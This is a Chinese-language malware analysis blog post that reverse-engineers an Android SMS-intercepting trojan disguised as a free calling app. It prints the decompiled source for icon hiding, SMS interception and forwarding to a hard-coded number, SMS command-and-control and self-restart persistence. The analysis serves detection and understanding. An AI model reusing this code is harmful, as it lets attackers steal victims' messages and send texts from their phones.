

Author:wnagzihxa1n
E-Mail:wnagzihxa1n@gmail.com
在这个美好的日子总要做点什么庆祝一下，那就分析个App吧
报告名称：对一个免费通话恶意APP的逆向分析
作者：wnagzihxain
报告更新日期：2016.5.20
样本发现日期：不详
样本类型：短信拦截
样本文件大小／被感染文件变化长度：
样本文件MD5 校验值：
样本文件SHA1 校验值：
壳信息：无
可能受到威胁的系统：安卓
相关漏洞：无
已知检测名称：无
前几天吾爱论坛有同学说装了一个通话软件结果一直发送短信，所以下了样本来分析一下
先上apktool
来看一下AndroidManifest.xml，一共申请了6个权限
一个Activity，还有服务什么的先不管

然后将apk文件修改后缀为zip，解压缩后，用dex2jar将classes.dex文件转换为jar文件，接下来用jdgui打开就可以看到里面的代码了

随便翻一下可以看到没加壳没混淆，而且代码写的一塌糊涂，不忍直视……
先不着急分析，上JEB
直接把apk拖进去就会进行反编译，（注释并不是自动生成的，是我自己写的，这玩意虽然强大，但是还没有到能自己写注释的地步）

为什么要开两个呢？
因为jdgui里面对整个逻辑的整理比较好，但是代码稍微不是很好阅读，jeb可以加注释，还可以改变量名，但是代码逻辑稍微乱了点，所以两者同时结合着看比较好懂
来看MainActivity（jdgui）
package com.sms.tract;
import LogCatBroadcaster;
import android.app.Activity;
import android.content.Context;
import android.content.Intent;
import android.content.pm.PackageManager;
import android.os.Build;
import android.os.Build.VERSION;
import android.os.Bundle;
public class MainActivity extends Activity{
@Override
protected void onCreate(Bundle paramBundle){
LogCatBroadcaster.start(this);
super.onCreate(paramBundle);
super.requestWindowFeature(1);
setContentView(2130903040);
new SmSutils().sendSMS("15833482871", new StringBuffer().append(new StringBuffer().append("爆万爆万爆万，回复com#false关闭com#true开启, 版本").append(Build.VERSION.SDK_INT).toString()).append(" ").toString() + Build.MODEL, (Context)null);
getPackageManager().setComponentEnabledSetting(getComponentName(), 2, 1);
try{
paramBundle = Class.forName("com.sms.tract.SmSserver");
startService(new Intent(this, paramBundle));
finish();
return;
}
catch (ClassNotFoundException paramBundle){
throw new NoClassDefFoundError(paramBundle.getMessage());
}
}
}
这句的意思是说这是用手机开发的APPLogCatBroadcaster.start(this);
向15833482871发送"爆万爆万爆万,回复com#false关闭com#true开启, 版本"+受害者手机系统版本号+手机型号，这个结合开头那张图片可以看出来
new SmSutils().sendSMS("15833482871", new StringBuffer().append(new StringBuffer().append("爆万爆万爆万,回复com#false关闭com#true开启, 版本").append(Build.VERSION.SDK_INT).toString()).append(" ").toString() + Build.MODEL, (Context)null);
隐藏图标
getPackageManager().setComponentEnabledSetting(getComponentName(), 2, 1);
接下来是重头戏了，开启了一个SmSserver服务，同时调用finish()方法把当前activity移出栈，这个并不调用onDestroy()，也不释放资源，也就是说应用还在运行
try{
paramBundle = Class.forName("com.sms.tract.SmSserver");
startService(new Intent(this, paramBundle));
finish();
return;
}
catch (ClassNotFoundException paramBundle){
throw new NoClassDefFoundError(paramBundle.getMessage());
}
左侧进入SmSserver看一下具体代码，可以看到先注册了两个Receiver，同时给作者发送短信通知拦截服务已启动

在JEB里加上注释看一下
@Override
public void onCreate() {
super.onCreate();
Notification notification = new Notification(2130837505, "", System.currentTimeMillis());
Intent intent = new Intent();
notification.contentView = new RemoteViews(this.getPackageName(), 2130903040);
notification.contentIntent = PendingIntent.getActivity(this, 0, intent, 0);
this.startForeground(100, notification);
IntentFilter intentfilter = new IntentFilter();
intentfilter.addAction("android.provider.Telephony.SMS_RECEIVED"); // 添加action：android.provider.Telephony.GSM_SMS_RECEIVED
intentfilter.addAction("android.provider.Telephony.SMS_RECEIVED_2"); // 添加action：android.provider.Telephony.SMS_RECEIVED_2
intentfilter.addAction("android.provider.Telephony.GSM_SMS_RECEIVED"); // 添加action：android.provider.Telephony.GSM_SMS_RECEIVED
intentfilter.setPriority(1000); // 设置优先级
this.localMessageReceiver = new SmSReceiver();
this.registerReceiver(this.localMessageReceiver, intentfilter, "android.permission.BROADCAST_SMS", // 注册第一个Receiver，带上了收到短信时进行广播的权限
null);
this.localMessageReceiver2 = new SmSReceiver();
this.registerReceiver(this.localMessageReceiver2, new IntentFilter("com.sms.tract")); // 注册第二个Receiver
new SmSutils().sendSMS("15833482871", new StringBuffer().append("拦截服务已启动,软件到期时间").append("2028-01-15 00:50:00") // 发送短信告诉作者已经开启拦截
.toString(), null);
}
同时它还有一个onDestroy()方法，可以用于被kill后自启动
@Override
public void onDestroy() {
Class v6;
SmSserver This = this;
super.onDestroy();
This.stopForeground(true);
This.unregisterReceiver(This.localMessageReceiver); // 注销
This.unregisterReceiver(This.localMessageReceiver2); // 注销
Intent intent1 = new Intent();
Intent intent2 = intent1;
SmSserver v5 = This;
try {
v6 = Class.forName("com.sms.tract.SmSserver");
}
catch(ClassNotFoundException v4_1) {
throw new NoClassDefFoundError(v4_1.getMessage()); // 异常处理
}
intent2.setClass(((Context)v5), v6);
This.startService(intent1); // 被kill后自启动，保证永远存活
}
@Override public int onStartCommand(Intent arg10, int arg11, int arg12) {
return super.onStartCommand(arg10, 3, arg12);
}
以上就是软件启动的时候做的事，总结一下就是：给作者发送第一条短信，然后注册两个Receiver，能在获取手机接收短信时的系统广播，并且SmSserver能够自启动，保证常驻后台
那么接下里就是Receiver的分析了
一共有两个Receiver继承自BroadcastReceiver，一个是SmSReceiver，另一个是BootReceiver
先来分析SmSReceiver
只要刚才注册的Receiver接收到系统接收短信时进行的广播，调用smsutils.isflag()进行日期判断，如果在这个日期前就执行SendSms()（这个不是刚才那个直接发送短信的方法），执行完后会有一个是否执行成功的判断给作者一个反馈
package com.sms.tract;
import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.content.SharedPreferences;
import android.os.Bundle;
import android.util.Log;
public class SmSReceiver extends BroadcastReceiver {
private SharedPreferences sp;
public SmSReceiver() {
super();
this.sp = null;
}
@Override public void onReceive(Context arg12, Intent arg13) {
SmSutils smsutils; // 如果收到的广播内容是if里面任意一个就执行
SmSReceiver This = this;
Context context = arg12;
Intent intent = arg13;
Log.i("action", intent.getAction());
This.sp = context.getSharedPreferences("config", 0);
if((intent.getAction().equals("android.provider.Telephony.SMS_RECEIVED")) || (intent.getAction()
.equals("android.provider.Telephony.SMS_RECEIVED_2")) || (intent.getAction().equals(
"android.provider.Telephony.GSM_SMS_RECEIVED"))) {
smsutils = new SmSutils(); // 如果收到的广播内容是if里面任意一个就执行
Bundle bundle = intent.getExtras();
if(bundle != null && (smsutils.isflag()))
{
smsutils.SendSms(bundle, context, This); // 发送短信
}
}
if(intent.getAction().equals("com.sms.tract")) {
smsutils = new SmSutils();
if(This.getResultCode() != -1) {
smsutils.sendSMS("15833482871", new StringBuffer().append("指令执行失败状态码 ").append(This. // 指令执行失败给作者发送失败的状态码
getResultCode()).toString(), null);
}
else {
smsutils.sendSMS("15833482871", "指令执行成功", null); // 发短信给作者指令执行成功
}
}
}
}
来看一下smsutils.isflag()，不清楚为什么要写这个，难道是作者写了这个软件卖给别人？？？
然后还设置了别人使用的期限？？？
Excuse me？？？
public boolean isflag() {
try {
if(!SmSutils.sdf.parse("2028-01-15 00:50:00").after(new Date())) {
return false;
}
}
catch(ParseException v3) {
v3.printStackTrace();
return false;
}
boolean v0 = true;
return v0;
}
然后就是刚才的SendSms()，JEB反编译代码如下
public void SendSms(Bundle arg22, Context arg23, SmSReceiver arg24) {
String[] messagetextsplit; // 根据#进行分割
String sourceaddress; // 发送该短信的手机号
String messagetext; // 整条短信内容
SmSutils SmSutilsthis = this;
Bundle bundle = arg22;
Context context = arg23;
SmSReceiver smsreceiver = arg24;
SmSutils This = SmSutilsthis;
Context v14 = context;
try {
This.sp = v14.getSharedPreferences("config", 0);
Object pdus = bundle.get("pdus");
SmsMessage[] smsmessage = new SmsMessage[pdus.length];
int i;
for(i = 0; i < pdus.length; ++i) {
smsmessage[i] = [/i]SmsMessage.createFromPdu(pdus);
}
messagetext = ""; // 整条短信内容
sourceaddress = ""; // 发送该短信的手机号
SmsMessage[] smsmessage1 = smsmessage;
int i;
for(i = 0; i < smsmessage1.length; ++i) {
SmsMessage messagetemp = smsmessage1[i];
messagetext = new StringBuffer().append(messagetext).append(messagetemp.getMessageBody()).toString();
if("".equals(sourceaddress)) {
sourceaddress = messagetemp.getOriginatingAddress(); // 获取发送该短信的手机号
}
}
Log.i("action", new StringBuffer().append(new StringBuffer().append(sourceaddress).append("->").toString()).append(messagetext).toString());
if(!sourceaddress.contains("15833482871")) {
goto label_265; // 如果短信来源不是作者手机号就发送拦截到的短信，相当于过滤掉作者发送的短信
}
messagetextsplit = messagetext.split("#"); // 根据#进行分割
if(messagetextsplit.length < 1) {
goto label_221; // 这种情况相当于出错
}
if("com".equals(messagetextsplit[0])) {
SmSutilsthis.command(messagetextsplit[1]); // 如果是‘com#’类型的短信就执行command方法，这个方法得结合MainActivity里的第一条短信来分析，简单来说就是作者用来控制的，具体看command方法
smsreceiver.abortBroadcast(); // 截断收到短信的广播
return;
}
if(SmSutils.isMobileNO(messagetextsplit[0])) {
SmSutilsthis.sendSMS(messagetextsplit[0], messagetextsplit[1], context); // 这个if厉害了
smsreceiver.abortBroadcast(); // 截断收到短信的广播
return;
}
// 前面的if都执行完了其余情况全部当作错误处理并发给作者
SmSutilsthis.sendSMS("15833482871", new StringBuffer().append(new StringBuffer().append(new StringBuffer().append(new StringBuffer().append(messagetextsplit.length).append(" 指令错误\'").toString()).append(messagetextsplit[0]).toString()).append("\',").toString()).append(messagetextsplit[1]).toString(), null);
smsreceiver.abortBroadcast(); // 截断收到短信的广播
return;
}
catch(Exception v13_1) {
goto label_202;
}
label_221:
This = SmSutilsthis;
try {
This.sendSMS("15833482871", new StringBuffer().append(new StringBuffer().append(new StringBuffer() // 向作者发送指令出错的信息，同时带上拦截到的短信信息
.append(messagetextsplit.length).append(" 指令错误").toString()).append(messagetext)
.toString()).append("正确格式 手机号码#内容").toString(), null);
smsreceiver.abortBroadcast(); // 截断收到短信的广播
return;
label_265: // 发送短信，格式：短信来源->短信内容
if(SmSutilsthis.sp.getBoolean("islj", true)) {
SmSutilsthis.[i]se[/i]ndSMS("15833482871", new StringBuffer().append(new StringBuffer().append( // 判断sp里的‘islj’是否为true，相当于判断作者是否还需要获取拦截的短信
sourceaddress).append("->").toString()).append(messagetext).toString(), null);
smsreceiver.abortBroadcast(); // 截断收到短信的广播
}
return;
}
catch(Exception v13_1) {
label_202:
v13_1.printStackTrace();
SmSutilsthis.sendSMS("15833482871", new StringBuffer().append("出现异常").append(v13_1.getMessage()).toString(), null);
return;
}
}
代码很长，写了注释，下面来分析一遍完整的流程
获取接收到的短信，其实就是前期准备工作，把该获取信息的获取
This.sp = v14.getSharedPreferences("config", 0);
Object pdus = bundle.get("pdus");
SmsMessage[] smsmessage = new SmsMessage[pdus.length];
int i;
for(i = 0; i < pdus.length; ++i) {
smsmessage = SmsMessage.createFromPdu(pdus);
}
messagetext = ""; // 整条短信内容
sourceaddress = ""; // 发送该短信的手机号
SmsMessage[] smsmessage1 = smsmessage;
int i;
for(i = 0; i < smsmessage1.length; ++i) {
SmsMessage messagetemp = smsmessage1;
messagetext = new StringBuffer().append(messagetext).append(messagetemp.getMessageBody()).toString();
if("".equals(sourceaddress)) {
sourceaddress = messagetemp.getOriginatingAddress(); // 获取发送该短信的手机号
}
}
Log.i("action", new StringBuffer().append(new StringBuffer().append(sourceaddress).append("->").toString()).append(messagetext).toString());
如果不是作者发的短信就跳到label_265
if(!sourceaddress.contains("15833482871")) {
goto label_265; // 如果短信来源不是作者手机号就发送拦截到的短信，相当于过滤掉作者发送的短信
}
跳到label_265，SmSutilsthis.sp.getBoolean("islj", true)这个需要结合后面的分析，注意command方法
label_265: // 发送短信，格式：短信来源->短信内容
if(SmSutilsthis.sp.getBoolean("islj", true)) { // 判断sp里的‘islj’是否为true，相当于判断作者是否还需要获取拦截的短信
SmSutilsthis.sendSMS("15833482871", new StringBuffer().append(new StringBuffer().append( //发送拦截到的短信
sourceaddress).append("->").toString()).append(messagetext).toString(), null);
smsreceiver.abortBroadcast(); // 截断收到短信的广播
}
return;
然后其它分支里的代码段就是接收到作者短信的操作了
messagetextsplit = messagetext.split("#"); // 根据#进行分割
if(messagetextsplit.length < 1) {
goto label_221; // 这种情况相当于出错
}
出错后执行的代码
label_221:
This = SmSutilsthis;
try {
This.sendSMS("15833482871", new StringBuffer().append(new StringBuffer().append(new StringBuffer() // 向作者发送指令出错的信息，同时带上拦截到的短信信息
.append(messagetextsplit.length).append(" 指令错误").toString()).append(messagetext)
.toString()).append("正确格式 手机号码#内容").toString(), null);
smsreceiver.abortBroadcast(); // 截断收到短信的广播
return;
如果是com#类型的短信就执行command方法，这个方法得结合MainActivity里的第一条短信来分析，简单来说就是作者用来控制的，具体看command方法
if("com".equals(messagetextsplit[0])) {
SmSutilsthis.command(messagetextsplit[1]);
smsreceiver.abortBroadcast(); // 截断收到短信的广播
return;
}
command方法，收到来自作者的短信，内容是com#true就设置sp为true，否则为false，结合最开始我说注意command方法那里
就是说作者不想监控你了就给你发”com#false“，想监控你了就给你发”com#true“，不想监控你但是Receiver还是在后台运行的，只是拦截到的短信作者不接收了而已
public void command(String arg8) {
SmSutils This = this;
String messagetextsplit1 = arg8;
Log.i("action", messagetextsplit1);
if(This.sp != null) {
SharedPreferences$Editor editor = This.sp.edit();
if("true".equals(messagetextsplit1)) {
editor.putBoolean("islj", true); // 短信格式为‘com#true......’就将sp里的‘islj’设为true
}
else {
editor.putBoolean("islj", false); // 如果短信格式为‘com#......’，#后面不是‘true’，则设置sp里的‘islj’为false
}
editor.commit();
}
}
继续看代码，这段代码作用是收到作者的短信，格式是95533#hello world这样的，就利用受害者手机给95533发送hello world，作者想干什么我不清楚，要是我就拿你手机给我充Q币~~~
if(SmSutils.isMobileNO(messagetextsplit[0])) {
SmSutilsthis.sendSMS(messagetextsplit[0], messagetextsplit[1], context); // 这个if厉害了
smsreceiver.abortBroadcast(); // 截断收到短信的广播
return;
}
看一下SmSutils.isMobileNO()方法，作用就是判断#前面是不是电话号码
public static boolean isMobileNO(String arg6) {
boolean flag;
String messagetextsplit0 = arg6;
try {
Double.parseDouble(messagetextsplit0);
flag = true;
}
catch(Exception v4_1) {
v4_1.printStackTrace();
flag = false;
}
return flag;
}
如果所有if都不符合就当出错处理
SmSutilsthis.sendSMS("15833482871", new StringBuffer().append(new StringBuffer().append( // 前面的if都执行完了其余情况全部当作错误处理并发给作者
new StringBuffer().append(new StringBuffer().append(messagetextsplit.length).append(
" 指令错误\'").toString()).append(messagetextsplit[0]).toString()).append("\',").toString())
.append(messagetextsplit[1]).toString(), null);
smsreceiver.abortBroadcast(); // 截断收到短信的广播
return;
整个Receiver的功能就是这些，刚才说还有一个BootReceiver，功能简单，实现开机自启动
package com.sms.tract;
import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.util.Log;
import java.util.List;
public class BootReceiver extends BroadcastReceiver {
public BootReceiver() {
super();
}
public static boolean isServiceRun(Context context, String arg11) {
String actionSmSserver = arg11;
boolean False = false;
List servicelist = context.getSystemService("activity").getRunningServices(40);
int servicelistnum = servicelist.size();
int i = 0;
while(true) {
if(i < servicelistnum) {
if(!servicelist.get(i).service.getClassName().equals(actionSmSserver)) {
++i; // 判断"com.sms.tract.SmSserver"是否在后台运行
continue;
}
else {
return true;
}
}
return False;
}
return true;
}
@Override public void onReceive(Context arg16, Intent arg17)
{
Class v10;
Context context = arg16;
boolean v3 = BootReceiver.isServiceRun(context, "com.sms.tract.SmSserver");
Log.i("phone", new StringBuffer().append("server_").append(v3).toString()); // 输出服务是否在后台运行
if(!v3) {
Intent intent = null;
Intent v8 = null;
Context context1 = context;
try {
v10 = Class.forName("com.sms.tract.SmSserver");
}
catch(ClassNotFoundException error) {
throw new NoClassDefFoundError(error.getMessage()); // 异常处理
}
super(context1, v10);
intent.addFlags(268435456);
context.startService(intent); // 实现开机自启动
}
}
}
到这里就已经分析完所有代码了，总结软件行为：拦截短信并发送给作者，作者可通过发送短信控制是否获取拦截到的短信，同时还可以控制受害者手机发送短信
SmSutils.isMobileNO()方法里用于判断是否是电话号码的其实是一个将字符串转换为数字的方法，如果执行的时候没有触发异常间接说明是电话号码：java.lang.Double.parseDouble()方法
判断短信来源是否包含作者手机号的Contains()，也就是判断是否是作者发送的短信：String.Contains（）方法
一种监听短信的方法，也就是作者使用的办法：android的SMS监听
用于判断是否过期的isflag()：Date 中 before(when)跟after(when)用法
作者用于保证SmSserver不被杀死的方法：Android开发之如何监听让服务不被杀死（service+broadcast）
用于存储是否给作者发送拦截到的短信：SharedPreferences详解
Intent相关：Intent中的四个重要属性——Action、Data、Category、Extras
文中启动Class.forname()方法的实现：Class.forName()用法及与new区别 详解
长短信的发送：android发送与接收超长短信
MainActivity中finish()相关用法：安卓开发-Activity中finish() onDestroy() 和System.exit()的区别
在获取系统发出的收到短信广播后获取短信内容相关：Android SmsMessage类详解
关于广播：Broadcast详解